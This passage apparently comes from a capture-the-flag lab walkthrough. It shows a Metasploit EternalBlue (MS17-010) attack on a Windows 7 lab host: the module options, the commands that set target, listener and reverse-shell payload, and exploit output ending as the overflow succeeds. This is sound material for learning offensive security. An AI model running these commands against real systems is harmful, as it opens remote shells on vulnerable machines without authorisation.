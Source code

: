 ```
                                             008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

The answer is : RHOSTS (But we also have to change the LHOST option to use tun0 interface instead of eth0 interface).
So we use ```set RHOSTS 10.10.95.229``` to specify the target, and ```set LHOST 10.X.X.X``` with our own address on tun0 interface to get the reverse shell.

It is asked to use a specific payload with ```set payload windows/x64/shell/reverse_tcp```.  
Now we can run the exploit by using ```run```.
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.14.32.60:4444 
[*] 10.10.100.165:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.100.165:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.100.165:445     - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.100.165:445 - The target is vulnerable.
[*] 10.10.100.165:445 - Connecting to target for exploitation.
[+] 10.10.100.165:445 - Connection established for exploitation.
[+] 10.10.100.165:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.100.165:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.100.165:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.100.165:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.100.165:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.100.165:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.100.165:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.100.165:445 - Sending all but last fragment of exploit packet
[*] 10.10.100.165:445 - Starting non-paged pool grooming
[+] 10.10.100.165:445 - Sending SMBv2 buffers
[+] 10.10.100.165:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.100.165:445 - Sending final SMBv2 buffers.
[*] 10.10.100.165:445 - Sending last fragment of exploit packet!
[*] 10.10.100.165:445 - Receiving response from exploit packet
[+] 10.10.100.165:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.100.165:445 - Sending egg to corrupted connection.
[*] 10.10.100.165:445 - Triggering free of corrupted buffer.
```